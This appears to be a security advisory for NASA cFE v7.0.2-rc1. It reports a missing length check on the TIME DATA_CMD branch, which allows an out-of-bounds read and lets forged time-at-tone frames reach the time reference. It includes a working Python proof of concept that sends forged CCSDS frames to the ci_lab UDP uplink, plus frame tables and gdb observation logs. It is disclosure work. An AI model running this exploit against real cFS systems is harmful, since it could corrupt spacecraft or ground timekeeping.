



### Overview

- Vendor : NASA
- Product : core Flight System (cFS) / TIME
- Version : cFE v7.0.2-rc1 as bundled in nasa/cFS v7.0.2-rc1 (commit 63b6f8d); the unguarded branch is present across the public 7.x history
- Vulnerability Class : Improper Input Validation (CWE-20) leading to Out-of-bounds Read (CWE-125)

### Description

A vulnerability was identified in NASA cFE v7.0.2-rc1. The affected branch is the DATA_CMD branch of CFE_TIME_TaskPipe() of the file cfe/modules/time/fsw/src/cfe_time_dispatch.c. The branch passes the raw software bus message to CFE_TIME_ToneDataCmd() without any length check, while every TIME ground command is first validated by CFE_TIME_VerifyCmdLength(). Any frame delivered to message ID 0x1860 therefore reaches the handler, whatever its declared length. The handler casts the message to a 28-byte command structure and reads the full 20-byte payload, so a frame that declares only the 8-byte header makes the handler read the 20 bytes that follow the header in the uplink buffer. The attack is possible to be carried out remotely over the command uplink, which in the stock bundle is ci_lab on UDP port 1234. ci_lab forwards every received datagram to the software bus without filtering by message ID. Its only length check rejects a packet whose declared length exceeds the received datagram, so a 28-byte declaration passes. The CCSDS command checksum is not verified by default. A forged frame is a forged time-at-tone data message. TIME promotes new values into its active time reference only when a data message and a tone signal form a pair. In TIME client deployments, where each CPU keeps its clock aligned to a time server, a forged pair installs the attacker-supplied values: the attacker-chosen MET, STCF and leap seconds become the system time reference. In the sample configuration, where TIME runs as a server on an internal source, a forged pair does not install the payload values, but the out-of-bounds read still places the frame's own trailing bytes into the pending time values, and every forged frame is consumed in silence.

### Vulnerability details

The message ID of the branch is `0x1860`, `CFE_PLATFORM_TIME_GLBCMD_MIDVAL(DATA_CMD)`, built by `CFE_GLOBAL_CMD_TOPICID_TO_MIDV()` on the global command base `0x1860` with topic 0 — a different base from the ground-command base `0x1800`. TIME subscribes this message ID on its command pipe (`cfe_time_task.c:241`); the software bus routing-table dump confirms the subscription.

`cfe/modules/time/fsw/src/cfe_time_dispatch.c:255-261` — no `VerifyCmdLength`:

```c
    else if (CFE_SB_MsgId_Equal(MessageID, DATA_CMD_MID))
    {
        CFE_TIME_ToneDataCmd((const CFE_TIME_ToneDataCmd_t *)SBBufPtr);
    }
```

The ground-command branch of the same dispatch function validates all 16 function codes through `CFE_TIME_VerifyCmdLength()`; the check appears 17 times in this file and the DATA_CMD branch is the only exception whose handler reads the payload.

`CFE_TIME_ToneDataCmd()` at `cfe_time_task.c:461-466` calls `CFE_TIME_ToneData(&data->Payload)` unconditionally. The command structure is an 8-byte CCSDS header followed by a 20-byte payload (`default_cfe_time_msgdefs.h:112-118`; `CFE_TIME_ClockState_Enum_t` is `int16`, `default_cfe_time_extern_typedefs.h:165`):

```c
typedef struct CFE_TIME_ToneDataCmd_Payload
{
    CFE_TIME_SysTime_t         AtToneMET;         /**< \brief MET at time of tone */
    CFE_TIME_SysTime_t         AtToneSTCF;        /**< \brief STCF at time of tone */
    int16                      AtToneLeapSeconds; /**< \brief Leap Seconds at time of tone */
    CFE_TIME_ClockState_Enum_t AtToneState;       /**< \brief Clock state at time of tone */
} CFE_TIME_ToneDataCmd_Payload_t;
```

`CFE_TIME_ToneData()` at `cfe_time_tone.c:602-605` reads the four payload fields with no length check:

```c
    CFE_TIME_Copy(&CFE_TIME_Global.PendingMET, &ToneDataCmd->AtToneMET);
    CFE_TIME_Copy(&CFE_TIME_Global.PendingSTCF, &ToneDataCmd->AtToneSTCF);
    CFE_TIME_Global.PendingLeaps = ToneDataCmd->AtToneLeapSeconds;
    CFE_TIME_Global.PendingState = ToneDataCmd->AtToneState;
```

Command ingest delivers uplink frames without a copy: ci_lab receives each datagram into a software bus buffer allocated once at the maximum ingest size (768 bytes, `CI_LAB_PLATFORM_MAX_INGEST`) and passes that same buffer to `CFE_SB_TransmitBuffer` (`ci_lab_app.c:243-267`). A frame that declares only the 8-byte header is therefore handed to the handler with the bytes that followed it on the wire still in place behind the declaration: the demonstration frame appends eight `0xAB` marker bytes, and the handler reports the MET field as `2880154539` — `0xABABABAB`, the marker bytes read as the payload. For the payload fields the datagram does not carry, the read returns the residual content of the buffer from earlier uplink datagrams (zero on a freshly allocated block). The message the software bus delivers ends at the declared 8 bytes; the 20-byte payload read spans offsets 8-27 of the structure, entirely beyond it. The read values are stored in `PendingMET/PendingSTCF/PendingLeaps/PendingState`.

With `AT_TONE_WAS` missions (`example_mission_cfg.h:466-467`, the sample configuration), every stored data message is immediately checked against the last tone signal by `CFE_TIME_ToneVerify()` at `cfe_time_tone.c:616-618`. The pairing window is `MinElapsed=0` to `MaxElapsed=200000` µs (`example_mission_cfg.h:491-492`); on a pass it increments `ToneMatchCounter` and calls `CFE_TIME_ToneUpdate()`:

```c
            if ((elapsed.Seconds != 0) || (elapsed.Subseconds < CFE_TIME_Global.MinElapsed)
                || (elapsed.Subseconds > CFE_TIME_Global.MaxElapsed))
            {
                CFE_TIME_Global.ToneMatchErrorCounter++;
            }
            else
            {
                CFE_TIME_Global.ToneMatchCounter++;
                if (!CFE_TIME_Global.Forced2Fly)
                {
                    CFE_TIME_ToneUpdate();
                }
            }
```

What `CFE_TIME_ToneUpdate()` does with the pending values is configuration-dependent:

- In `CFE_PLATFORM_TIME_CFG_CLIENT` builds — the standard multi-CPU topology where each CPU keeps its clock aligned to a time server — the client branch loads the pending values unconditionally (`cfe_time_tone.c:891-893`): `AtToneMET = PendingMET`, `AtToneSTCF = PendingSTCF`, `AtToneLeapSeconds = PendingLeaps`, and the clock state follows the attacker-supplied `AtToneState`. The forged pair installs attacker-chosen values as the active time reference.
- In server builds with an external time source, the pending MET or STCF is likewise loaded into the reference (`cfe_time_tone.c:834-835`).
- In the sample configuration (`example_platform_cfg.h:1569-1570`, `1637`, `1653-1655`: server build, no external source, source starts internal) the update resets `AtToneMET` from the internal counter (`cfe_time_tone.c:825-826`) and the payload values are not installed; the out-of-bounds read still fills the pending slots with the frame's trailing bytes or the residual content of the uplink buffer, and those slots are what every subsequent pairing hands to `CFE_TIME_ToneUpdate()`.

The branch belongs to the unguarded internal family: `ONEHZ_CMD` at line 241, `SEND_HK` at line 248, `TONE_CMD` at line 262 and `SEND_CMD` at line 270, the last compiled only in `CFE_PLATFORM_TIME_CFG_SERVER` builds. The ONEHZ and TONE handlers do not read a payload.

### PoC

Environment: nasa/cFS v7.0.2-rc1 native pc-linux build, stock startup script and sample configuration (server build, `AT_TONE_WAS`), command ingest via ci_lab on UDP/1234.

```python
#!/usr/bin/env python3
# CFE_TIME_ToneDataCmd command length validation bypass - minimal PoC
# Target : NASA cFS v7.0.2-rc1, stock bundle running in the foreground
# Run    : python3 poc_tone_data.py [--ip=127.0.0.1] [--port=1234] [--count=5]
# Expect : every frame is consumed in silence and no rejection event is printed;
#          on an instance traced at CFE_TIME_ToneData the header-only frames
#          print TONEDATA lines whose MET field is the eight 0xAB marker bytes
#          (2880154539 = 0xABABABAB), and each ONEHZ + DATA pair ends in MATCH
#          followed by TONEUPDATE: Loading pending MET=1724 / 5324 / 8924
import socket
import struct
import sys
import time

ONEHZ_MID = 0x1811  # CFE_PLATFORM_TIME_CMD_MIDVAL(ONEHZ_CMD)
DATA_MID = 0x1860   # CFE_PLATFORM_TIME_GLBCMD_MIDVAL(DATA_CMD)

INJECTED_MET = [1724, 5324, 8924]  # attacker-chosen MET, one per pairing round


def checksum(pkt_wo_chk):
    """CCSDS command checksum: 0xFF XOR over the whole frame."""
    c = 0xFF
    for b in pkt_wo_chk:
        c ^= b
    return c


def cmd(mid, payload):
    """CCSDS command frame: 6-byte primary header, function code, checksum,
    payload; the length field is total - 7."""
    p = struct.pack(">HHHBB", mid, 0xC000, len(payload) + 1, 0, 0) + payload
    return p[:7] + bytes([checksum(p)]) + payload


def data_payload(met):
    """CFE_TIME_ToneDataCmd payload: AtToneMET, AtToneSTCF,
    AtToneLeapSeconds (int16), AtToneState (uint16) - 20 bytes."""
    return (
        struct.pack("<II", met, 0)
        + struct.pack("<II", 1000000, 0)
        + struct.pack("<hH", 37, 0)
    )


def main():
    ip, port, count = "127.0.0.1", 1234, 5
    for a in sys.argv[1:]:
        k, _, v = a.lstrip("-").partition("=")
        if k == "ip":
            ip = v
        elif k == "port":
            port = int(v)
        elif k == "count":
            count = int(v)

    header_only = cmd(DATA_MID, b"") + b"\xAB" * 8  # declares 8 bytes, carries 8 marker bytes behind
    onehz = cmd(ONEHZ_MID, b"")                     # tone signal half via the ONEHZ branch
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    for _ in range(count):
        s.sendto(header_only, (ip, port))
        print("tx", header_only.hex())
        time.sleep(0.3)

    for met in INJECTED_MET:
        full = cmd(DATA_MID, data_payload(met))
        s.sendto(onehz, (ip, port))
        print("tx", onehz.hex())
        time.sleep(0.1)
        s.sendto(full, (ip, port))
        print("tx", full.hex())
        time.sleep(1.0)


if __name__ == "__main__":
    main()
```

The first loop sends the header-only DATA_CMD frame:

| offset | field | value | meaning |
|---|---|---|---|
| 0-1 | message ID | `0x1860` | TIME DATA_CMD (global command base) |
| 2-3 | sequence | `0xC000` | unsegmented sequence flag |
| 4-5 | length | `0x0001` | CCSDS length field = total - 7, so the packet declares 8 bytes |
| 6 | function code | `0x00` | |
| 7 | checksum | `0x46` | |
| 8-15 | trailing bytes | `AB` x8 | marker bytes carried behind the declared message |

The frame declares a message of 8 bytes and carries eight `0xAB` marker bytes behind the declaration. The handler reads the 20-byte payload from beyond it: the markers land in the MET field, reported as `2880154539` (`0xABABABAB`), and the payload fields the datagram does not carry are read from the residual content of the uplink buffer.

The second loop pairs the two halves of the tone mechanism. The ONEHZ frame at message ID `0x1811` (the same header-only shape) latches a fresh tone signal; 100 ms later the full DATA_CMD arrives inside the 200 ms pairing window:

| offset | field | value | meaning |
|---|---|---|---|
| 0-1 | message ID | `0x1860` | TIME DATA_CMD (global command base) |
| 2-3 | sequence | `0xC000` | unsegmented sequence flag |
| 4-5 | length | `0x0015` | 21, so the packet declares 28 bytes: header + payload |
| 6 | function code | `0x00` | |
| 7 | checksum | per frame | |
| 8-15 | AtToneMET | `1724` / `5324` / `8924` s, subseconds 0 | attacker MET, one value per round |
| 16-23 | AtToneSTCF | `1000000` s, subseconds 0 | attacker STCF |
| 24-25 | AtToneLeapSeconds | `37` | attacker leap seconds |
| 26-27 | AtToneState | `0` | attacker clock state |

### Observation

The observation uses breakpoints on the tone chain of cfe_time_tone.c. The instance runs under the attached gdb script probe_tonedata.gdb, which prints one line for each step: TONEDATA when a DATA_CMD enters CFE_TIME_ToneData, with the payload fields it read; MATCH or ERR1/ERR2/ERR3 for the verdict of CFE_TIME_ToneVerify; TONEUPDATE when CFE_TIME_ToneUpdate runs, with the pending values about to be loaded. The breakpoints only print and do not participate in the delivery:

```
gdb -nx -batch -x probe_tonedata.gdb --args ./core-cpu1
```

The PoC of the previous section delivers its frames while this console is running. The baseline is the internal tone task of the server build: it produces its own TONEDATA lines about once per second carrying the running values (MET counting up, `STCF=1000000 leaps=37`), interleaved with the MATCH/TONEUPDATE lines of its own pairing and the periodic Start/Stop FLYWHEEL events of the time state machine.

The header-only frames of the first loop produce TONEDATA lines whose MET field is `2880154539` — the eight `0xAB` marker bytes the frame carried behind its declared 8 bytes, read as the payload:



In this capture five TONEDATA lines print `MET=2880154539 STCF=0 leaps=0 state=0` for frames that declared nothing but the 8-byte header: the handler read the marker bytes as the MET field, and the payload fields the datagram did not carry came back as the residual content of the uplink buffer. The ERR3-window and ERR1-replayPrev1 lines interleaved between them are the pairing verdicts for those values, and one marker value completes a pairing — `TONEUPDATE: Loading pending MET=2880154539 STCF=0 leaps=0` — the bytes read past the declared message reach the time update itself.

Each pairing round of the second loop ends in MATCH followed by TONEUPDATE: Loading pending MET=\<the injected value\> — the attacker-chosen values handed to the time update:



In this capture the three rounds print `MATCH` lines followed by `TONEUPDATE: Loading pending MET=1724`, `MET=5324` and `MET=8924`: the MET values chosen in the script, not the values of the running system, reach the time update of the spacecraft. The `TONEUPDATE: Loading pending MET=0 STCF=0 leaps=0` line above them is a header-only frame completing a pairing with a payload read that returned the uplink buffer's residual zeros — the same out-of-bounds read, on a buffer whose bytes behind the declaration happened to be zero.

The same 8-byte shape sent to a ground command of the same application produces the opposite outcome. The contrast uses SET_STATE of TIME, function code 4 at message ID 0x1805, delivered by send_hdr_frames.py --mid=0x1805 --fc=4. No TONEDATA line appears and the console prints the rejection event instead:

```
EVS Port1 1980-012-14:05:58.03985 66/1/CFE_TIME 49: Invalid msg length: ID = 0x1805,  CC = 4,  Len = 8,  Expected = 10
```



The capture shows the rejection event printed between the periodic Start/Stop FLYWHEEL events of the time state machine: the ground-command branch rejects the frame on length before its handler runs, while the internal DATA_CMD branch accepts the identical shape without any check.
